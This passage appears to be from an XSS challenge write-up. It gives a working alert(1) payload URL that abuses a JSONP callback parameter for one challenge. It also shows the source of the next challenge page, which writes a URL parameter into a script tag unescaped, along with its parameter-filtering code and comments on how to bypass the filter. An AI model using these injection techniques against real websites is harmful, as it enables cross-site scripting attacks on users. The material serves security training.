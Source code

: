 `http://px1624.sinaapp.com/test/xsstest5/?uin=test/xsstest5/user.php&pn=callback=alert(1)`

![](https://img.mi3aka.eu.org/2022/09/8c8f2e84149325c0e337f8ba48c4c750.png)

# xsstest6

```html
<html>
<script src="../jquery-3.4.1.min.js"></script>
<Script src="./index.js"></Script>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
<script type="text/javascript">
var orguin = $.Tjs_Get('uin');
if(orguin<=0) window.location="./user.php?callback=";
document.write('<script type="text/javascript" 	src="http://px1624.sinaapp.com/pxpath/'+decodeURIComponent(orguin)+'&'+Math.random()+'"><\/script>');
</script>
</head>
<body>
Give me xss bypass 6~【任意浏览器弹1就算通过】
</body>
</html>
```

```js
Tjs_Get:function(parmtname){
	var sl = location.href.indexOf('&');
	var hl = location.href.indexOf('#');
	var str = '';
	if ((sl < 0 || sl > hl) && hl > 0) str = location.hash.substr(1);
	else str = location.search.substr(1);
			
	str=str.replace(/%/g,"");//%被过滤
	var SERVER_TEMP			= $.Tjs_HtmlEncode(str.replace(/.*\?/,"")); //?被过滤,但因为.的存在,因此只会匹配换行符之前的东西,而之后的字符会被忽略,但是由于%被过滤,无法使用%0a进行换行
	var PAGE_PARMT_ARRAY	= SERVER_TEMP.split("&amp;");
	if(PAGE_PARMT_ARRAY.length==0) return "";
	var value="";
	for(var i=0;i<PAGE_PARMT_ARRAY.length;i++){
		if(PAGE_PARMT_ARRAY[i]=="") continue;
		var GETname = PAGE_PARMT_ARRAY[i].substr(0,PAGE_PARMT_ARRAY[i].indexOf("="));
		if(GETname == parmtname){
			value = PAGE_PARMT_ARRAY[i].substr((PAGE_PARMT_ARRAY[i].indexOf("=")+1),PAGE_PARMT_ARRAY[i].length);
			return value;
			break;
		}
	}
	return "";
}
```
